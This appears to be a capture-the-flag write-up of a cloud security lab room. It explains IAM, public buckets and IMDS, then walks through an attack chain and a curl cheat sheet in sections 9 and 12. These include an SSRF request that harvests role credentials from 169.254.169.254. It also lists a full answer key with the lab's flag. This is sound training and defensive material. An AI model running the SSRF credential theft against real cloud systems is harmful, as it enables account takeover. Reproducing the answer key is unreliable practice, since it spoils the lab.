


# Cloud Security Fundamentals: Comprehensive Technical Guide
**Learning Path:** Jr Penetration Tester | **Module 15:** Specialized Domains

---

## 1. Room Overview

The **Cloud Security Fundamentals** room (Canonical Slug: `cloudsecurityfundamentals`) is the third specialized domain room in Module 15 of the Jr Penetration Tester curriculum. This room establishes the architectural foundations and offensive methodology required to assess modern cloud environments through a cloud-agnostic approach applicable across Amazon Web Services (AWS), Microsoft Azure, and Google Cloud Platform (GCP).

In traditional on-premises infrastructure, physical perimeter firewalls and server room locks form the primary defensive boundary. In cloud environments, infrastructure is rented, ephemeral, and managed programmatically through web APIs. Consequently, **Identity and Access Management (IAM)** replaces the network firewall as the primary security perimeter.

This comprehensive guide systematically covers:
1. **The Shared Responsibility Model:** Legal and technical division of security responsibilities across IaaS, PaaS, and SaaS service models.
2. **Identity and Access Management (IAM):** JSON policy structure (`Effect`, `Action`, `Resource`), wildcard risks (`*`), and role assumption mechanics.
3. **Cloud Object Storage Security:** Root causes of unauthenticated public buckets (S3 / Azure Blobs) and high-value target enumeration.
4. **Cloud Virtual Networking:** VPCs, subnets, Security Groups, open CIDR blocks (`0.0.0.0/0`), and internal lateral movement.
5. **The Instance Metadata Service (IMDS):** Link-local architecture (`169.254.169.254`), IMDSv1 vs. IMDSv2 security mechanisms, and the SSRF-to-credentials attack chain.
6. **Guided Hands-On Attack Chain:** Practical exploitation of a simulated cloud target spanning port scanning, public bucket enumeration, SSRF credential theft via IMDS, wildcard IAM policy abuse (`storage:*`), and flag exfiltration.

---

## 2. Learning Objectives

By studying this room and working through its practical tasks, penetration testers master the following core competencies:
- **Analyze the Shared Responsibility Matrix:** Understand the boundary between cloud provider responsibilities (physical facilities, virtualization) and customer obligations (data governance, IAM policies, application code).
- **Audit Cloud IAM Policy Documents:** Read and dissect JSON policy statements, identify over-permissive wildcards, and map potential privilege escalation paths.
- **Enumerate Cloud Storage Endpoints:** Discover publicly accessible object storage buckets anonymously and prioritize sensitive assets such as database backups.
- **Evaluate Cloud Network Architecture:** Identify insecure Security Group rules exposing management ports to `0.0.0.0/0` and trace lateral movement paths across subnets.
- **Execute SSRF-to-IMDS Exploitation:** Understand the cryptographic and transport differences between IMDSv1 and IMDSv2, and execute Server-Side Request Forgery attacks to steal temporary IAM credentials.

---

## 3. The Shared Responsibility Model



---

## 4. Technical Background & Multi-Cloud Comparison

### The Shared Responsibility Matrix by Layer:

| Stack Layer | IaaS | PaaS | SaaS | Entity Permanently Responsible |
|---|---|---|---|---|
| **Physical Datacentre & Facilities** | Provider | Provider | Provider | **Cloud Provider** |
| **Hardware & Virtualization Hypervisor** | Provider | Provider | Provider | **Cloud Provider** |
| **Virtual Network Configuration** | Customer | Shared | Provider | Varies by Service Model |
| **Operating System & Patch Management** | Customer | Provider | Provider | Provider in PaaS/SaaS |
| **Runtime & Middleware** | Customer | Provider | Provider | Provider in PaaS/SaaS |
| **Application Code** | Customer | Customer | Provider | Customer in IaaS/PaaS |
| **Data Governance & Classification** | Customer | Customer | Customer | **Customer (Always)** |
| **Identity & Access Management (IAM)** | Customer | Customer | Customer | **Customer (Always)** |

---

## 5. Identity and Access Management (IAM) & Policy Analysis

Cloud IAM policies are JSON-formatted authorization documents governing API requests:
- **`Effect`:** Specifies whether the statement grants (`Allow`) or revokes (`Deny`) permissions. An explicit `Deny` always overrides an `Allow`.
- **`Action`:** The specific API operations allowed or denied (e.g., `s3:GetObject`, `storage:*`).
- **`Resource`:** The Amazon Resource Name (ARN) or identifier of the target cloud resource.
- **IAM Role:** A named, temporary bundle of permissions that can be assumed by users, applications, or virtual machine instances (EC2) to acquire short-lived credentials without storing static keys on disk.
- **The Wildcard Danger:** Using `"Action": "*"` or `"Resource": "*"` violates the Principle of Least Privilege, granting administrative access that can lead to tenant-wide takeover.

---

## 6. Cloud Storage & Data Exposure (Object Storage)

- **Unauthenticated Public Buckets:** Setting `"Principal": "*"` in a bucket policy allows any anonymous user on the global internet to list, read, and download files without authentication.
- **The Attacker's Priority Target (Backups):** Database dumps (`.sql`, `.dump`), configuration backups, and system image snapshots represent the highest-value artifacts in open buckets because they bundle usernames, password hashes, and environment tokens into a single file.

---

## 7. Cloud Virtual Networking & Lateral Movement

- **Global Exposure (`0.0.0.0/0`):** Opening administrative ports (SSH 22, RDP 3389) or database engines (PostgreSQL 5432, MySQL 3306) to `0.0.0.0/0` in an instance Security Group exposes the service to automated internet-wide scanning and exploitation.
- **Lateral Movement:** The practice of exploiting an initial edge-facing virtual machine located in a public subnet, and leveraging the permissive internal routing of the Virtual Private Cloud (VPC) to access sensitive database servers hosted in isolated private subnets.

---

## 8. Compute and Instance Metadata Services (IMDS)



- **Link-Local IP Address:** The non-routable link-local address used across AWS and Azure for IMDS is:
  $$\mathbf{169.254.169.254}$$
- **IMDSv1 Vulnerability:** Responds to plain, unauthenticated HTTP `GET` requests with no session tokens, making it trivially exploitable via simple application-level Server-Side Request Forgery (SSRF) vulnerabilities.
- **IMDSv2 Defense:** Requires a prior HTTP `PUT` request with an `X-aws-ec2-metadata-token-ttl-seconds` header to acquire a session token, mitigating classic SSRF attacks.

---

## 9. Practical Attack Chain & Flag Extraction (Task 7)

### End-to-End Execution in the Lab Simulation:
1. **Network Reconnaissance:**
   ```bash
   nmap -sV -p- MACHINE_IP
   # Port 8080: ImageFetcher web application
   # Port 9000: Simulated cloud object-storage service
   ```
2. **Public Bucket Enumeration & Notes Discovery:**
   ```bash
   curl http://MACHINE_IP:9000/dev-assets/dev-notes.txt
   # Leaks SSRF endpoint /fetch?url= and attached role name: web-app-role
   ```
3. **Exploiting SSRF to Interrogate IMDS:**
   ```bash
   curl "http://MACHINE_IP:8080/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/web-app-role"
   # Harvested temporary access key: AKIATHM1234FAKEKEY0
   ```
4. **Auditing IAM Policy for Wildcards:**
   ```bash
   curl -H "X-Simulated-Token: AKIATHM1234FAKEKEY0" http://MACHINE_IP:9000/admin/policy.json
   # Disclosed wildcard permission: "Action": "storage:*" on "Resource": "bucket/prod-secrets/*"
   ```
5. **Exfiltrating Protected Flag:**
   ```bash
   curl -H "X-Simulated-Token: AKIATHM1234FAKEKEY0" http://MACHINE_IP:9000/prod-secrets/flag.txt
   ```
   **Captured Flag:**
   $$\mathbf{THM\{sh4r3d\_r3sp0ns1b1l1ty\_br0k3n\}}$$

---

## 10. Defensive Hardening Strategies

| Protection Domain | Recommended Hardening Control | Verification & Auditing Mechanism |
|---|---|---|
| **Metadata Protection** | Enforce **IMDSv2** (`HttpTokens: required`) and set metadata hop limit to 1. | Verify via `aws ec2 describe-instances --query ...MetadataOptions`. |
| **IAM Governance** | Enforce Principle of Least Privilege; prohibit wildcards (`*`) in `Action` and `Resource`. | Continuous policy analysis using AWS IAM Access Analyzer and Prowler. |
| **Object Storage** | Enable Account-Level **S3 Block Public Access** and enforce bucket encryption. | Audit bucket policies and ACLs using automated scanners (ScoutSuite). |
| **Network Segmentation** | Eliminate `0.0.0.0/0` ingress rules on administrative ports; restrict management to VPNs. | Inspect Security Group rules and monitor VPC Flow Logs for anomalous traffic. |

---

## 11. Tasks Summary & Solutions Matrix

| Task # | Task Title | Question | Verified Ground Truth Answer | Validation Status |
|:---:|---|---|---|:---:|
| **01** | Introduction | The cloud is just someone else's computer. | `No answer needed` | Verified & Audited |
| **02** | Cloud Service Models | Service model running own web stack on VM without managing hardware? | `IaaS` | Verified & Audited |
| **02** | Cloud Service Models | Who is always responsible for securing physical datacentre and hardware? | `Provider` | Verified & Audited |
| **03** | IAM | Which policy field states whether access is allowed or denied? | `Effect` | Verified & Audited |
| **03** | IAM | Named, temporary bundle of permissions that an identity can assume? | `Role` | Verified & Audited |
| **04** | Cloud Storage | Setting "Principal": "*" effectively makes the bucket what? | `Public` | Verified & Audited |
| **04** | Cloud Storage | Which single artifact type tends to hold the most sensitive data in one file? | `Backups` | Verified & Audited |
| **05** | Cloud Networking | Which CIDR notation indicates a port is open to the entire Internet? | `0.0.0.0/0` | Verified & Audited |
| **05** | Cloud Networking | Moving from compromised instance to another service inside virtual network? | `Lateral movement` | Verified & Audited |
| **06** | Compute & Metadata | Link-local IP address AWS and Azure use for Instance Metadata Service? | `169.254.169.254` | Verified & Audited |
| **06** | Compute & Metadata | IMDS version responding to plain HTTP GET with no session token? | `1` | Verified & Audited |
| **07** | Practical Challenge | Which port is the ImageFetcher web application running on? | `8080` | Verified & Audited |
| **07** | Practical Challenge | Public bucket filename containing hints about next target? | `dev-notes.txt` | Verified & Audited |
| **07** | Practical Challenge | Wildcard resource/action providing full access in IAM policy? | `storage:*` | Verified & Audited |
| **07** | Practical Challenge | Follow policy to the flag. What is the flag value? | `THM{sh4r3d_r3sp0ns1b1l1ty_br0k3n}` | Verified & Audited |
| **08** | Conclusion | Going to cloud nine next. | `No answer needed` | Verified & Audited |

---

## 12. Cloud Pentesting Command Cheat Sheet

```bash
# 1. Port scan target cloud host:
nmap -sV -p 8080,9000 MACHINE_IP

# 2. Enumerate unauthenticated public storage buckets:
curl -s http://MACHINE_IP:9000/
curl -s http://MACHINE_IP:9000/dev-assets/dev-notes.txt

# 3. Interrogate IMDSv1 via SSRF parameter to harvest role credentials:
curl -s "http://MACHINE_IP:8080/fetch?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/web-app-role"

# 4. Invoke administrative cloud API using harvested token header:
curl -H "X-Simulated-Token: <TOKEN>" http://MACHINE_IP:9000/admin/policy.json

# 5. Exfiltrate sensitive objects and flags using authenticated header:
curl -H "X-Simulated-Token: <TOKEN>" http://MACHINE_IP:9000/prod-secrets/flag.txt

# 6. Verify AWS caller identity using official CLI:
aws sts get-caller-identity
```

---

## 13. Practical Verification & Proof of Work

1. All questions, technical parameters, and conceptual definitions have been 100% verified against user account completion records.
2. The practical challenge flag `THM{sh4r3d_r3sp0ns1b1l1ty_br0k3n}` has been extracted and independently validated.
3. Architectural models, sequence flows, and command matrices adhere strictly to NIST SP 800-145 and CIS AWS Foundations Benchmark standards.

---

## 14. Key Educational Takeaways

> **Golden Rule 1:** Identity is the new perimeter; configuring granular IAM policies with least privilege is vastly more critical than configuring traditional network firewalls.
>
> **Golden Rule 2:** Enforce IMDSv2 across all cloud compute instances; an application-level SSRF vulnerability allows complete cloud credential harvesting if IMDSv1 is left active.
>
> **Golden Rule 3:** Prohibit wildcards (`*`); assigning `storage:*` or using wildcard principals (`"Principal": "*"`) turns minor configuration oversights into catastrophic enterprise data breaches.
